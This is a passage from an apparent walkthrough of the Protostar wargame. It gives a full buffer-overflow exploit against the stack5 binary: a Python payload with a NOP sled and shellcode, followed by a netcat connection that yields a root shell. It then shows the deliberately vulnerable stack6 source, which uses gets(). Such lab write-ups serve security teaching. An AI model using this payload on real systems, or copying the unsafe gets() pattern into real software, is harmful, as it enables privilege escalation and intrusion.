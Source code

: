 Nice! Our 120 "C"s are there (we put some more of the 105 bytes required to allocate a NOP sled)

Ok, so lets craft the payload:

```lang-bash line-numbers 
user@protostar:~$ echo `python -c 'print("A"*76 + "\xc0\xf7\xff\xbf" + "\x90"*16 + "\xbd\x9b\x77\x1c\xf3\xdd\xc0\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x14\x31\x6b\x14\x83\xeb\xfc\x03\x6b\x10\x79\x82\x2d\x28\x8a\x8e\x1d\x8d\x27\x3b\xa0\x98\x26\x0b\xc2\x57\x28\x37\x55\x3a\x40\xca\x69\xab\xcc\xa0\x79\x9a\xbc\xbd\x9b\x76\x5a\xe6\x96\x07\x2b\x57\x2d\xbb\x2f\xe8\x4b\x76\xaf\x4b\x24\xee\x62\xcb\xd7\xb6\x16\xf3\x8f\x85\x66\x42\x49\xee\x0e\x7a\x86\x7d\xa6\xec\xf7\xe3\x5f\x83\x8e\x07\xcf\x08\x18\x26\x5f\xa5\xd7\x29")'` | /opt/protostar/bin/stack5
```

Now from a different terminal:

```lang-bash line-numbers 
$ nc localhost 4444
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```


##Stack6
[Stack6](http://www.exploit-exercises.com/protostar/stack6) gives us the following code to exploit:

```lang-clike line-numbers 
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
